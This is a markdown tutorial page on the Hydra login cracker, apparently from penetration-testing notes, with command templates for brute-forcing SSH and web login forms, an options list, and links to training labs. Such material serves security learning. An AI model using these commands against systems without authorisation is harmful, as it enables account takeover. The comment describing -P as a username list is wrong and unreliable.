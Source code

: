 ```yaml
---
title: Hydra
description: Hydra is a parralelized network login cracker, to perform brute force attacks to guess username and password combinations.
---
```


Hydra is a brute force online pasword cracking program, a quick system login password "hacking" tool. It can run through a list and “brute force” some authentication services. Imagine trying to manually guess someone’s password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.

:::warning
This shows the importance of using a strong password; if your password is common, doesn’t contain special characters and is not above eight characters, it will be prone to be guessed.
:::

```sh title="Brute force SSH login"
hydra -l <username> -P <full path to pass> <HOST_IP> -t 4 ssh
# -l specifies the SSH username for login
# -P specifies the full path to the password file
# -t 4 specifies the number of parallel tasks to run
```

```sh
hydra -l <username> -P rockyou.txt <HOST_IP> http-post-form "<path>:<login_credentials>:<invalid response>"
# -l specifies the username for login
# -P specifies the password file to use
# http-post-form specifies the HTTP POST form to target
# <path> is the path to the login form on the target web application, e.g. "/login.php"
# <login_credentials> are sent in the format "username=^USER^&password=^PASS^"
# <invalid response> is the text that indicates a failed login attempt, e.g. "Invalid username or password"
```

```sh title="Hydra options"
-L <userlist> # -L specifies a file containing a list of usernames
-l <username> # -l specifies a single username to use
-P <passlist> # -L specifies a file containing a list of usernames
-p <password> # -p specifies a single password to use
-t <number> # -t specifies the number of parallel tasks to run
-C <user:passlist> # -C specifies a file containing a list of usernames and passwords in the format user:password
-s <port> # -s specifies the port to connect to (if the service is not running on the default port)
-h # -h displays the help message
```

### Links

- [Hydra](https://github.com/vanhauser-thc/thc-hydra)
- [Try Hack Me Hydra Room](https://tryhackme.com/room/hydra)
- [Kali Hydra Tool Documentation](https://www.kali.org/tools/hydra/)
- [Kali Hydra Tool Page](https://en.kali.tools/?p=220)
- [Kali Word Lists](https://www.kali.org/tools/wordlists/)
- [Collection of multiple types of lists](https://github.com/danielmiessler/SecLists)
